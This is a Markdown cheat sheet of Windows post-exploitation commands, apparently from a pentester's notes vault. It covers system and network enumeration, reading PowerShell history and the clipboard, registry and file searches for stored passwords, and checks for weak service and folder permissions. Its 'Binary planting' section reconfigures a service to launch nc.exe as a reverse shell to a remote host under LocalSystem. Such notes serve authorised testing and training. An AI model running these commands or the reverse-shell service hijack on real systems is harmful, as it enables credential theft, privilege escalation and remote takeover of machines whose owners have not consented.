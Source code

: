 
##### What system are we connected to?

```
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

##### Get tokens and privileges 

```
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid
```

##### Get the hostname and username (if available)

```
hostname
echo %username%
```

##### Get users

```
net users
net user [username]
```

##### Get groups

```
get-LocalGroup | ft Name, SID
```

##### Networking stuff

```
ipconfig /all
```

##### Get session history 

```
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
Get-Content (Get-PSReadlineOption).HistorySavePath
```

##### Get user clipboard

```
Get-Clipboard
```

##### Find Printers

```
route print
```

##### ARP-arific

```
arp -A
```

##### Which protection settings enabled

```
Get-MpComputerStatus
```

##### Active network connections

See [[Find Open Ports]]
```
netstat -ano
```

##### Firewall fun (Win XP SP2+ only)

```
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

##### Scheduled tasks, see [[Scheduled Tasks]] and [[4. Post Exploitation/Operating Systems/Windows/Concepts and Vulnerabilities/Scheduled Tasks/1. Guide|Guide]]

```
schtasks /query /fo LIST /v
```

##### Running processes to started services

```
tasklist /SVC
net start
```

##### Driver madness
```
DRIVERQUERY
```

##### WMIC fun (Win 7/8 -- XP requires admin), use the `wmic_info` script

```
wmic /?
```

##### [[Saved Credentials]] 

```
cmdkey /list
```

##### WMIC: check patch level

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic service get name,displayname,pathname,startmode
```
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```
```
wmic product get name, version, vendor
```

##### Search pathces for given patch

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

##### AlwaysInstallElevated fun

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

##### AutoRun (See [[AutoRun SysInternals]])

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

##### [[Registry Passwords]] 

```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Other commands to run to hopefully get what we need

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /si password *.xml *.ini *.txt
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Service permissions

```
sc query
```
```
sc qc [service_name]
```
See [[DLL Hijacking]]
```
sc qc dllsvc (See [[DLL Hijacking]] )
```
If NT Auth, see [[RegSVC Writable]]
```
sc qc regsvc
```
If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]]
```
sc qc filepermsvc
```

##### Accesschk stuff

```
accesschk.exe /accepteula (always do this first!!!!!)
```
```
accesschk.exe /accepteula -uwcqv user daclsvc
```
```
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
```
```
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
```
accesschk.exe -ucqv [service_name]
```
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### Find all weak folder permissions per drive.

```
accesschk.exe -uwdqs Users c:\
```
```
accesschk.exe -uwdqs "Authenticated Users" c:\
```

##### Find all weak file permissions per drive.

```
accesschk.exe -uwqs Users c:\*.*
```
```
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Binary planting

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
```
```
sc config [service_name] obj= ".\LocalSystem" password= ""
```
```
sc qc [service_name] (to verify!)
```
```
net start [service_name]
```

##### Driver querying

```
driverquery /v /fo csv
```
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
